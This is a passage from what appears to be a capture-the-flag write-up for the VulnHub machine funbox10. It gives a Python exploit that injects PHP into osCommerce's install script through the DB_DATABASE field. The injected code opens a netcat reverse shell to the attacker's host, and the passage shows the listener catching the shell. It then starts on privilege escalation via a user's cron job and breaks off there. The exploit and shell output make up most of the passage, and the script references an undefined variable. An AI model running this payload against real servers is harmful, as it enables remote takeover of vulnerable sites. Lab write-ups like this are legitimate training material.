 target_url = "http://192.168.1.78/catalog/install/install.php?step=4"

data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

# the payload will be injected into the configuration file via this code
# '  define(\'DB_DATABASE\', \'' . trim($HTTP_POST_VARS['DB_DATABASE']) . '\');' . "\n" .
# so the format for the exploit will be: '); PAYLOAD; /*

payload = '\');'
payload += 'system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.210 1234 >/tmp/f");'    # this is where you enter you PHP payload
payload += '/*'

data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")
{% endhighlight %}

Note the above has been modified for the correct URLs and it sends me a reverse shell, like so:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/funbox10]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.78] 33868
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@funbox10:/var/www/html/catalog/install/includes$
{% endhighlight %}

## Privesc
I'm going to explain this slightly backwards. There is a cronjob running as the user Joe:

{% highlight shell %}
root@funbox10:/var/spool/cron/crontabs# cat joe
cat joe
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.wWLDXL/crontab installed on Mon Jul 19 13:24:20 2021)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
# 
